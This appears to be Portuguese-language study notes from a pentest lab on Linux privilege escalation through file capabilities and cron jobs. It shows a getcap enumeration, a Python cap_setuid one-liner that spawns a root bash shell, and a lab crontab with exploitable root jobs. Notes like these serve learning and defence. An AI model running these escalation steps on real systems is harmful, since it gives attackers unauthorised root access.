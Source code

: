 ```
```

___

# Capabilities

- Capabilities são usabilidades de Super User divididas em funções

```
getcap -r / 2>/dev/null
# Encontrando capabilities

/usr/bin/python2.6 = cap_setuid+ep
# Exemplo de resposta esperada. O ep significa "Permit Everything"

[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities                                                
/usr/bin/python2.6 = cap_setuid+ep
# Também tem no linpeas

/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# Escalação de privilégio
```


___

# Cron

- Schedule Tasks

```
cat /etc/crontab

TCM@debian:~/tools/linpeas$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

```
